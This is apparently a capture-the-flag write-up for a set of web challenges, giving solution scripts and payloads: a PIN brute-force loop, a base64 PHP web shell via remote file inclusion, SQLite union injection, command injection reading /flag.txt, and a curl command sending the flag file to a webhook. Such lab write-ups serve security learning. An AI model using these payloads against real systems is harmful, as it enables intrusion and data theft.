# Web active

## Baby Logic Pincode

this challenge does not check the number of times so we can send as many times as we want, I did not see any change in the response so I relied on the length of the response to guess that the `flag` would appear, here is my script:

```python
import requests

URL = "http://103.97.125.56:31734/"

data = {
    "pin": f'',
}

for i in range(1000, 1501):
    data['pin'] = i
    print(f"Trying pin: {i}")
    res = requests.post(URL, data=data)
    if res.status_code == 200 and len(res.text) != 2878:
        print(f"Success with pin: {i}")
        break
    else:
        print(f"Failed with pin: {i}")
```

password is `1053`


---

## Remote File Inclusion

an interesting vulnerability about `RFI`, after I searched I found a way to `inject` remotely, the ways to transform data are almost `impossible`

```text
found : http://example.net/?page=data://text/plain;base64,PD9waHAgc3lzdGVtKCRfR0VUWydjbWQnXSk7ZWNobyAnU2hlbGwgZG9uZSAhJzsgPz4=
```

at [here](https://github.com/payloadbox/rfi-lfi-payload-list)


---

## Blind Command Injection

I tried many ways but read the description carefully, we can see that we need `RCE` to leak the `flag` out, I tried using `curl` and `wget` to do it, at first I noticed that `wget` has a longer response time so we need to take advantage of it to leak `flag.txt` to `webhook`





---

## Where do you come from

a simple challenge about identity spoofing, add `Referer` header to fool



---

## Brute-force Basic Authentication

just login as `guest` and get the return information in header



---

## Baby Address Note

this is `sqlite injection` challenge, i used string concatenation for basic exploit

- get database name: `' union select name,1,1 from pragma_database_list --`

```python
import requests

URL = 'http://103.97.125.56:30912/?uid='

payload = f"' union select name,1,1 from pragma_database_list --"

res = requests.get(URL+payload)

print(res.text)
```

`response`

```text
...
{'uid': 'main', 'username': '1', 'address': '1'}
...
```

database name: `main`

- get table: `SELECT name FROM sqlite_master WHERE type='table' --`

```python
import requests

URL = 'http://103.97.125.56:30912/?uid='

payload = f"' union SELECT name,1,1 FROM sqlite_master WHERE type='table' --"

res = requests.get(URL+payload)

print(res.text)
```

`reponse`

```text
...
{'uid': 'flag_LAflD', 'username': '1', 'address': '1'}
...
```

- get column: `' union select name,1,1 from pragma_table_info('flag_LAflD') --`

```python
import requests

URL = 'http://103.97.125.56:30912/?uid='

payload = f"' union select name,1,1 from pragma_table_info('flag_LAflD') --"

res = requests.get(URL+payload)

print(res.text)
```

`reponse`

```text
...
{'uid': 'flag', 'username': '1', 'address': '1'}
...
```

- get flag: `'union select flag,1,1 from flag_LAflD --`

```python
import requests

URL = 'http://103.97.125.56:30912/?uid='

payload = f"'union select flag,1,1 from flag_LAflD --"

res = requests.get(URL+payload)

print(res.text)
```

`response`

```text
...
{'uid': 'CHH{5QL_INJ3cTiON_SQL1T33_4abdb7ad6586c6d21f4fd53401f3084a}', 'username': '1', 'address': '1'}
...
```

---

## Modify user role

in this challenge i tried `flask-unsign` but it seems it doesn't know `secret_key`, pay attention to update function, take advantage and add to role and then copy `session` to get `flag`





---

## Youtube Downloader

I tried almost many ways but didn't get much, pay attention to the source code, everything is returned in the source code and not shown

payload: 'https://www.youtube.com/watch?v=DXT9dF-WK-I&ab_channel=AbaoinTokyo;cat%20/flag.txt'



---

## NSLookup (Level 2)

In this challenge, if you add the command simply, it will not work because you will see that the content passed in will be in quotes `''`, so inject the quotes `'` first and then add the command.

payload: `%27;ls%20/%27`



payload: `%27;cat%20/flag.txt%27`



---

## Are you a search engine bot

In this challenge we need to replace the information to pretend to be a crawler bot, if you are a bot it will display a `flag` . I found some information about crawl bots [here](https://explore.whatismybrowser.com/useragents/explore/software_name/googlebot/)

payload: `User-Agent: compatible; Googlebot/2.1; +http://www.google.com/bot.html)`



---

## The Existed File

The filter list has banned most of the ways for us to append commands, instead we can bypass it by adding execution with `$()`, at this point the file reading commands also become meaningless, I used curl to leak the `flag` data out

payload: ```curl${IFS}https://webhook.site/cd87ac80-b517-4852-8afd-b574ddb4e11b${IFS}--data${IFS}@/flag.txt```



---

## Baby SQLite With Filter

this challenge helped me learn many ways to `bypass` whitespace, say string:
- for whitespace: and concatenate string `/**/`
- for select can use `values` function

payload: `uid=a&upw=a&level=1/**/union/**/values(CHAR(97)||CHAR(100)||CHAR(109)||CHAR(105)||CHAR(110))`



---

## 

